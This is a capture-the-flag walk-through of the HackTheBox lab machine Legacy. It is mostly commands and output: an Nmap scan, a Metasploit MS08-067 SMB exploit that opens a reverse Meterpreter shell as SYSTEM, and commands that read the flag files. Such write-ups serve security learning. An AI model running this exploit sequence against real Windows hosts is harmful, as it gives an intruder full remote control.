 ```yaml
---
title: "Walk-through of Legacy from HackTheBox"
header:
  teaser: /assets/images/2020-05-05-22-13-16.png
toc: true
toc_sticky: true
excerpt_separator:  <!--more-->
categories:
  - CTF
tags:
  - HTB
  - CTF
  - SMB
  - Metasploit
  - Windows
---
```


## Machine Information

![Legacy](/assets/images/2020-05-05-22-13-16.png)

Legacy is a beginner level machine which demonstrates the potential security risks of SMB on Windows. Only one publicly available exploit is required to obtain administrator access.
Skills required are basic knowledge of Windows and enumerating ports and services. Skills learned are identifying vulnerable services and exploiting SMB.

<!--more-->

| Details |  |
| --- | --- |
| Hosting Site | [HackTheBox](https://www.hackthebox.eu/) |
| Link To Machine | [HTB - 002 - Easy - Legacy](https://www.hackthebox.eu/home/machines/profile/2) |
| Machine Release Date | 15th March 2017 |
| Date I Completed It | 23rd July 2019 |
| Distribution used | Kali 2019.1 – [Release Info](https://www.kali.org/news/kali-linux-2019-1-release/) |

### Initial Recon

Check for open ports with Nmap:

```text
root@kali:~/htb/legacy# nmap -sC -sV -oA legacy 10.10.10.4

Starting Nmap 7.70 ( https://nmap.org ) at 2019-07-23 14:48 BST
Nmap scan report for 10.10.10.4
Host is up (0.039s latency).
Not shown: 997 filtered ports
PORT     STATE  SERVICE       VERSION
139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  Windows XP microsoft-ds
3389/tcp closed ms-wbt-server
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows,cpe:/o:microsoft:windows_xp
 Host script results:
 |_clock-skew: mean: 5d00h23m48s, deviation: 2h07m16s, median: 4d22h53m48s
 |_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b0:7a:76 (VMware)
 | smb-os-discovery: 
 |   OS: Windows XP (Windows 2000 LAN Manager)
 |   OS CPE: cpe:/o:microsoft:windows_xp::-
 |   Computer name: legacy
 |   NetBIOS computer name: LEGACY\x00
 |   Workgroup: HTB\x00
 |_  System time: 2019-07-28T18:42:51+03:00
 | smb-security-mode: 
 |   account_used: guest
 |   authentication_level: user
 |   challenge_response: supported
 |_  message_signing: disabled (dangerous, but default)
 |_smb2-time: Protocol negotiation failed (SMB2)
```

### Gaining Access

The machine is running on Windows XP, start msfconsole and look for exploit:

```text
root@kali:~/htb/legacy# service postgresql start
root@kali:~/htb/legacy# msfconsole
```

Well known exploit for XP is netapi:

```text
msf5 > search netapi

Matching Modules
================ 
  #  Name                                 Disclosure Date  Rank    Check  Description
  -  ----                                 ---------------  ----    -----  -----------
  -     0  exploit/windows/smb/ms03_049_netapi  2003-11-11       good    No     MS03-049 Microsoft Workstation Service NetAddAlternateComputerName Overflow
  -     1  exploit/windows/smb/ms06_040_netapi  2006-08-08       good    No     MS06-040 Microsoft Server Service NetpwPathCanonicalize Overflow
  -     2  exploit/windows/smb/ms06_070_wkssvc  2006-11-14       manual  No     MS06-070 Microsoft Workstation Service NetpManageIPCConnect Overflow
  -     3  exploit/windows/smb/ms08_067_netapi  2008-10-28       great   Yes    MS08-067 Microsoft Server Service Relative Path Stack Corruption
```

Says rank is great so try this:

```text
msf5 > use exploit/windows/smb/ms08_067_netapi
msf5 exploit(windows/smb/ms08_067_netapi) > options
Module options (exploit/windows/smb/ms08_067_netapi): 
   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       The target address range or CIDR identifier
   RPORT    445              yes       The SMB service port (TCP)
   SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)
Exploit target: 
   Id  Name
   --  ----
   0   Automatic Targeting

msf5 exploit(windows/smb/ms08_067_netapi) > set RHOST 10.10.10.4
RHOST => 10.10.10.4
msf5 exploit(windows/smb/ms08_067_netapi) > exploit
[*] Started reverse TCP handler on 10.10.14.22:4444 
[*] 10.10.10.4:445 - Automatically detecting the target...
[*] 10.10.10.4:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] 10.10.10.4:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 10.10.10.4:445 - Attempting to trigger the vulnerability...
[*] Sending stage (179779 bytes) to 10.10.10.4
[*] Meterpreter session 1 opened (10.10.14.22:4444 -> 10.10.10.4:1035) at 2019-07-23 15:02:01 +0100
```

### User and Root Flags

Meterpreter session connected, take a look around:

```text
meterpreter > sysinfo
Computer        : LEGACY
OS              : Windows XP (Build 2600, Service Pack 3).
Architecture    : x86
System Language : en_US
Domain          : HTB
Logged On Users : 1
Meterpreter     : x86/windows

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > pwd
C:\
```

Exploit has connected me as System, so can get both flags:

```text
meterpreter > cat "Documents and Settings\john\desktop\user.txt"
meterpreter > cat "Documents and Settings\administrator\desktop\root.txt"
```

All done, that was nice and easy.

